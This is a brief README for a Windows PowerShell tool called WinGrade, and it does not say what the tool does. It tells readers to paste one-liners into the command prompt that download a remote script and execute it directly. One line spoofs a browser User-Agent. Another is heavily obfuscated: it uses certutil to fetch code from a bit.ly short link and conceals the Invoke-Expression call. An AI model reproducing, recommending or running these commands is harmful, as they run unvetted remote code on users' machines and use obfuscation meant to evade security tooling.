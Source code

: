 # WinGrade

You can execute it in every Windows Operating System from Windows 7 - 10.

You don't have to Download the Program directly at github.


Just execute [CMD]:

powershell "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')"

or

powershell "$down=New-Object Net.WebClient;$down.Headers['User-Agent']='Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/525.19 (KHTML, like Gecko) Chrome/1.0.154.53 Safari/525.19';$down.DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')|iex"

or


powershell "iex(((C:\Windows\System32\certutil -ping https://bit.ly/2tZuas2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-Skip 2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-SkipLast 1)-Join'`r`n'))"

In the Windows Command Prompt.


This Script is still in the early Alpha release!!! And has some bugs
